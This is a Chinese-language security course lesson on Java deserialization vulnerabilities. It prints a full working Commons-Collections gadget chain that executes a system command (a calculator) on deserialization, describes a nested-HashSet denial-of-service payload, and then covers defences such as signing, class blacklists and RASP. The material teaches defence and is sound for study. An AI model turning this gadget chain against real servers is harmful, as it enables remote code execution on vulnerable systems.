






- 00 开篇词 别说你没被安全困扰过.md.html
- 01 安全的本质：数据被窃取后，你能意识到问题来源吗？.md.html
- 02 安全原则：我们应该如何上手解决安全问题？.md.html
- 03 密码学基础：如何让你的密码变得“不可见”？.md.html
- 04 身份认证：除了账号密码，我们还能怎么做身份认证？.md.html
- 05 访问控制：如何选取一个合适的数据保护方案？.md.html
- 06 XSS：当你“被发送”了一条微博时，到底发生了什么？.md.html
- 07 SQL注入：明明设置了强密码，为什么还会被别人登录？.md.html
- 08 CSRF_SSRF：为什么避免了XSS，还是“被发送”了一条微博？.md.html
- 09 反序列化漏洞：使用了编译型语言，为什么还是会被注入？.md.html
- 10 信息泄露：为什么黑客会知道你的代码逻辑？.md.html
- 11 插件漏洞：我的代码看起来很安全，为什么还会出现漏洞？.md.html
- 13 Linux系统安全：多人共用服务器，如何防止别人干“坏事”？.md.html
- 14 网络安全：和别人共用Wi-Fi时，你的信息会被窃取吗？.md.html
- 15 Docker安全：在虚拟的环境中，就不用考虑安全了吗？.md.html
- 16 数据库安全：数据库中的数据是如何被黑客拖取的？.md.html
- 17 分布式安全：上百个分布式节点，不会出现“内奸”吗？.md.html
- 18 安全标准和框架：怎样依“葫芦”画出好“瓢”？.md.html
- 19 防火墙：如何和黑客“划清界限”？.md.html
- 20 WAF：如何为漏洞百出的Web应用保驾护航？.md.html
- 21 IDS：当黑客绕过了防火墙，你该如何发现？.md.html
- 22 RASP：写规则写得烦了？尝试一下更底层的IDS.md.html
- 23 SIEM：一个人管理好几个安全工具，如何高效运营？.md.html
- 24 SDL：怎样才能写出更“安全”的代码？.md.html
- 25 业务安全体系：对比基础安全，业务安全有哪些不同？.md.html
- 26 产品安全方案：如何降低业务对黑灰产的诱惑？.md.html
- 27 风控系统：如何从海量业务数据中，挖掘黑灰产？.md.html
- 28 机器学习：如何教会机器识别黑灰产？.md.html
- 29 设备指纹：面对各种虚拟设备，如何进行对抗？.md.html
- 30 安全运营：“黑灰产”打了又来，如何正确处置？.md.html
- 加餐1 数据安全：如何防止内部员工泄露商业机密？.md.html
- 加餐2 前端安全：如何打造一个可信的前端环境？.md.html
- 加餐3 职业发展：应聘安全工程师，我需要注意什么？.md.html
- 加餐4 个人成长：学习安全，哪些资源我必须要知道？.md.html
- 加餐5 安全新技术：IoT、IPv6、区块链中的安全新问题.md.html
- 模块串讲（一）Web安全：如何评估用户数据和资产数据面临的威胁？.md.html
- 模块串讲（三）安全防御工具：如何选择和规划公司的安全防御体系？.md.html
- 模块串讲（二）Linux系统和应用安全：如何大范围提高平台安全性？.md.html
- 结束语 在与黑客的战役中，我们都是盟友！.md.html
- 捐赠
09 反序列化漏洞：使用了编译型语言，为什么还是会被注入？
你好，我是何为舟。
我们都知道，Java是一种高层级的语言。在Java中，你不需要直接操控内存，大部分的服务和组件都已经有了成熟的封装。除此之外，Java是一种先编译再执行的语言，无法像JavaScript那样随时插入一段代码。因此，很多人会认为，Java是一个安全的语言。如果使用Java开发服务，我们只需要考虑逻辑层的安全问题即可。但是，Java真的这么安全吗？
2015年，Java曾被曝出一个严重的漏洞，很多经典的商业框架都因此受到影响，其中最知名的是WebLogic。据统计，在网络中公开的WebLogic服务有3万多个。其中，中国就有1万多个外网可访问的WebLogic服务。因此，WebLogic的反序列化漏洞意味着，国内有1万多台服务器可能会被黑客攻陷，其影响的用户数量更是不可估量的。
你可能要说了，我实际工作中并没有遇到过反序列化漏洞啊。但是，你一定使用过一些序列化和反序列化的工具，比如Fastjson和Jackson等。如果你关注这些工具的版本更新，就会发现，这些版本更新中包含很多修复反序列化漏洞的改动。而了解反序列化漏洞，可以让你理解，Java作为一种先打包后执行的语言，是如何被插入额外逻辑的；也能够让你对Java这门语言的安全性，有一个更全面的认知。
那么，到底什么是反序列化漏洞呢？它究竟会对Java的安全带来哪些冲击呢？遇到这些冲击，我们该怎么办呢？今天我就带你来了解反序列化漏洞，然后一起学习如何防护这样的攻击！
反序列化漏洞是如何产生的？
如果你是研发人员，工作中一定会涉及很多的序列化和反序列化操作。应用在输出某个数据的时候，将对象转化成字符串或者字节流，这就是序列化操作。那什么是反序列化呢？没错，我们把这个过程反过来，就是反序列化操作，也就是应用将字符串或者字节流变成对象。
序列化和反序列化有很多种实现方式。比如Java中的Serializable接口（或者Python中的pickle）可以把应用中的对象转化为二进制的字节流，把字节流再还原为对象；还有XML和JSON这些跨平台的协议，可以把对象转化为带格式的文本，把文本再还原为对象。
那反序列化漏洞到底是怎么产生的呢？问题就出在把数据转化成对象的过程中。在这个过程中，应用需要根据数据的内容，去调用特定的方法。而黑客正是利用这个逻辑，在数据中嵌入自定义的代码（比如执行某个系统命令）。应用对数据进行反序列化的时候，会执行这段代码，从而使得黑客能够控制整个应用及服务器。这就是反序列化漏洞攻击的过程。
事实上，基本上所有语言都会涉及反序列化漏洞。其中，Java因为使用范围比较广，本身体积也比较庞大， 所以被曝出的反序列化漏洞最多。下面，我就以Java中一个经典的反序列化漏洞demo ysoserial 为基础，来介绍一个经典的反序列化漏洞案例，给你讲明白反序列化漏洞具体的产生过程。了解漏洞是怎么产生的，对于你后面理解防护措施也会非常有帮助，所以这里你一定要认真看。
不过，这里也先提醒你一下，这块原理的内容相对比较复杂。我会尽量给你讲解清楚，讲完之后，我也会带着你对这部分内容进行总结、复习。重复记忆可以加深理解，这块内容建议你可以多看几遍。好了，下面我们就来看这个案例！
最终的演示demo的代码如下所示。在macOS环境下运行这段代码，你就能够打开一个计算器。（在Windows环境下，将系统命令open -a calculator修改成calc即可。）注意，这里需要依赖3.2.1以下的commons-collections，最新的版本已经对这个漏洞进行了修复，所以无法重现这个攻击的过程。
public class Deserialize {
public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException, NoSuchMethodException {
Object evilObject = getEvilObject();
byte[] serializedObject = serializeToByteArray(evilObject);
deserializeFromByteArray(serializedObject);
}
public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException {
String[] command = {"open -a calculator"};
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
),
new InvokerTransformer("exec",
new Class[]{String.class},
command
)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler);
InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
return invocationHandlerToSerialize;
/*Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec", new Class[] {
String.class }, new Object[] {"open -a calculator"})};
Transformer chain = new ChainedTransformer(transformers);
Map innerMap = new HashMap<String, Object>();
innerMap.put("key", "value");
Map<String, Object> outerMap = TransformedMap.decorate(innerMap, null, chain);
Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Target.class, outerMap);
return instance;*/
}
public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
ois.readObject();
}
public static byte[] serializeToByteArray(Object object) throws IOException {
ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
objectOutputStream.writeObject(object);
return serializedObjectOutputContainer.toByteArray();
}
public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {
ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject);
ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer);
InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject();
return evilInvocationHandler;
}
}
下面我们来分析一下这段代码的逻辑。
在Java通过ObjectInputStream.readObject()进行反序列化操作的时候，ObjectInputStream会根据序列化数据寻找对应的实现类（在payload中是sun.reflect.annotation.AnnotationInvocationHandler）。如果实现类存在，Java就会调用其readObject方法。因此，AnnotationInvocationHandler.readObject方法在反序列化过程中会被调用。
AnnotationInvocationHandler在readObject的过程中会调用streamVals.entrySet()。其中，streamVals是AnnotationInvocationHandler构造函数中的第二个参数。这个参数可以在数据中进行指定。而黑客定义的是Proxy类，也就是说，黑客会让这个参数的实际值等于Proxy。

Proxy是动态代理，它会基于Java反射机制去动态实现代理类的功能。在Java中，调用一个Proxy类的entrySet()方法，实际上就是在调用InvocationHandler中的invoke方法。在invoke方法中，Java又会调用memberValues.get(member)。其中，memberValues是AnnotationInvocationHandler构造函数中的第二个参数。
同样地，memberValues这个参数也能够在数据中进行指定，而这次黑客定义的就是LazyMap类。member是方法名，也就是entrySet。因此，我们最终会调用到LazyMap.get("entrySet")这个逻辑。

当LazyMap需要get某个参数的时候，如果之前没有获取过，则会调用ChainedTransformer.transform进行构造。

ChainedTransformer.transform会将我们构造的几个InvokerTransformer顺次执行。而在InvokerTransformer.transform中，它会通过反射的方法，顺次执行我们定义好的Java语句，最终调用Runtime.getRuntime().exec("open -a calculator")实现命令执行的功能。

好了，讲了这么多，不知道你理解了多少？这个过程的确比较烧脑。我带你再来总结一下，简单来说，其实就是以下4步：
- 黑客构造一个恶意的调用链（专业术语为POP，Property Oriented Programming），并将其序列化成数据，然后发送给应用；
- 应用接收数据。大部分应用都有接收外部输入的地方，比如各种HTTP接口。而这个输入的数据就有可能是序列化数据；
- 应用进行反序列操作。收到数据后，应用尝试将数据构造成对象；
- 应用在反序列化过程中，会调用黑客构造的调用链，使得应用会执行黑客的任意命令。
那么，在这个反序列化的过程中，应用为什么会执行黑客构造的调用链呢？这是因为，反序列化的过程其实就是一个数据到对象的过程。在这个过程中，应用必须根据数据源去调用一些默认方法（比如构造函数和Getter/Setter）。
除了这些方法，反序列化的过程中，还会涉及一些接口类或者基类（简单的如：Map、List和Object）。应用也必须根据数据源，去判断选择哪一个具体的接口实现类。也就是说，黑客可以控制反序列化过程中，应用要调用的接口实现类的默认方法。通过对不同接口类的默认方法进行组合，黑客就可以控制反序列化的调用过程，实现执行任意命令的功能。
通过反序列化漏洞，黑客能做什么？
学习了前面的例子，我们已经知道，通过反序列化漏洞，黑客可以调用到Runtime.exec()来进行命令执行。换一句话说，黑客已经能够在服务器上执行任意的命令，这就相当于间接掌控了你的服务器，能够干任何他想干的事情了。
即使你对服务器进行了一定的安全防护，控制了黑客掌控服务器所产生的影响，黑客还是能够利用反序列化漏洞，来发起拒绝服务攻击。比如，曾经有人就提出过这样的方式，通过HashSet的相互引用，构造出一个100层的HashSet，其中包含200个HashSet的实例和100个String，结构如下图所示。

对于多层嵌套的对象，Java在反序列化过程中，需要调用的方法呈指数增加。因此，尽管这个序列化的数组大概只有6KB，但是面对这种100层的数据，Java所需要执行的方法数是近乎无穷的（n的100次方）。也就是说，黑客可以通过构建一个体积很小的数据，增加应用在反序列化过程中需要调用的方法数，以此来耗尽CPU资源，达到影响服务器可用性的目的。
如何进行反序列化漏洞防护 ？
现在，你应该对序列化和反序列化的操作产生了一些警惕。那你可能要问了，既然反序列化漏洞危害这么大，我们能不能直接剔除它们呢？显然是不可能的，尤其是JSON，作为目前最热门的跨平台数据交换格式之一，其易用性是显而易见的，你不可能因为这些还没发生的危害就剔除它们。因此，我们要采取一些有效的手段，在把反序列化操作的优势发挥出来的同时，去避免反序列化漏洞的出现。我们来看3种具体的防护方法：认证、限制类和RASP检测。
1.认证和签名
首先，最简单的，我们可以通过认证，来避免应用接受黑客的异常输入。要知道，很多序列化和反序列化的服务并不是提供给用户的，而是提供给服务自身的。比如，存储一个对象到硬盘、发送一个对象到另外一个服务中去。对于这些点对点的服务，我们可以通过加入签名的方式来进行防护。比如，对存储的数据进行签名，以此对调用来源进行身份校验。只要黑客获取不到密钥信息，它就无法向进行反序列化的服务接口发送数据，也就无从发起反序列化攻击了。
2.限制序列化和反序列化的类
事实上，认证只是隐藏了反序列化漏洞，并没有真正修复它。那么，我们该如何从根本上去修复或者避免反序列化漏洞呢？
在反序列化漏洞中，黑客需要构建调用链，而调用链是基于类的默认方法来构造的。然而，大部分类的默认方法逻辑很少，无法串联成完整调用链。因此，在调用链中通常会涉及非常规的类，比如，刚才那个demo中的InvokerTransformer。我相信99.99%的人都不会去序列化这个类。因此，我们可以通过构建黑名单的方式，来检测反序列化过程中调用链的异常。
在Fastjson的配置文件中，就维护了一个黑名单的列表，其中包括了很多可能执行代码的方法类。这些类都是平常会使用，但不会序列化的一些工具类，因此我们可以将它们纳入到黑名单中，不允许应用反序列化这些类（在最新的版本中，已经更改为hashcode的形式）。
我们在日常使用Fastjson或者其他JSON转化工具的过程中，需要注意避免序列化和反序列化接口类。这就相当于白名单的过滤：只允许某些类可以被反序列化。我认为，只要你在反序列化的过程中，避免了所有的接口类（包括类成员中的接口、泛型等），黑客其实就没有办法控制应用反序列化过程中所使用的类，也就没有办法构造出调用链，自然也就无法利用反序列化漏洞了。
3.RASP检测
通常来说，我们可以依靠第三方插件中自带的黑名单来提高安全性。但是，如果我们使用的是Java自带的序列化和反序列化功能（比如ObjectInputStream.resolveClass），那我们该怎么防护反序列化漏洞呢？如果我们想要替这些方法实现黑名单的检测，就会涉及原生代码的修改，这显然是一件比较困难的事。
为此，业内推出了RASP（Runtime Application Self-Protection，实时程序自我保护）。RASP通过hook等方式，在这些关键函数的调用中，增加一道规则的检测。这个规则会判断应用是否执行了非应用本身的逻辑，能够在不修改代码的情况下对反序列化漏洞攻击实现拦截。关于RASP，之后的课程中我们会专门进行讲解，这里暂时不深入了。简单来说，通过RASP，我们就能够检测到应用中的非正常代码执行操作。
我个人认为，RASP是最好的检测反序列化攻击的方式。 我为什么会这么说呢？这是因为，如果使用认证和限制类这样的方式来检测，就需要一个一个去覆盖可能出现的漏洞点，非常耗费时间和精力。而RASP则不同，它通过hook的方式，直接将整个应用都监控了起来。因此，能够做到覆盖面更广、代码改动更少。
但是，因为RASP会hook应用，相当于是介入到了应用的正常流程中。而RASP的检测规则都不高效，因此，它会给应用带来一定的性能损耗，不适合在高并发的场景中使用。但是，在应用不受严格性能约束的情况下，我还是更推荐使用RASP。这样，开发就不用一个一个去对漏洞点进行手动修补了。
总结
好了，今天的内容讲完了。我们来一起总结回顾一下，你需要掌握的重点内容。
我们首先讲了反序列化漏洞的产生原理，即黑客通过构造恶意的序列化数据，从而控制应用在反序列化过程中需要调用的类方法，最终实现任意方法调用。如果在这些方法中有命令执行的方法，黑客就可以在服务器上执行任意的命令。
对于反序列化漏洞的防御，我们主要考虑两个方面：认证和检测。对于面向内部的接口和服务，我们可以采取认证的方式，杜绝它们被黑客利用的可能。另外，我们也需要对反序列化数据中的调用链进行黑白名单检测。成熟的第三方序列化插件都已经包含了这个功能，暂时可以不需要考虑。最后，如果没有过多的性能考量，我们可以通过RASP的方式，来进行一个更全面的检测和防护。
最后，为了方便你记忆，我把今天的内容总结成一张知识脑图，你可以通过它对今天的重点内容进行复习巩固。

思考题
最后，给你留一个思考题。
你可以去了解一下，你所使用的序列化和反序列化插件（比如Fastjson、Gson和Jackson等），是否被曝出过反序列化漏洞？然后结合今天的内容思考一下，这些反序列化漏洞，可能会给你带来什么影响。
欢迎留言和我分享你的思考和疑惑，也欢迎你把文章分享给你的朋友。我们下一讲再见！
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.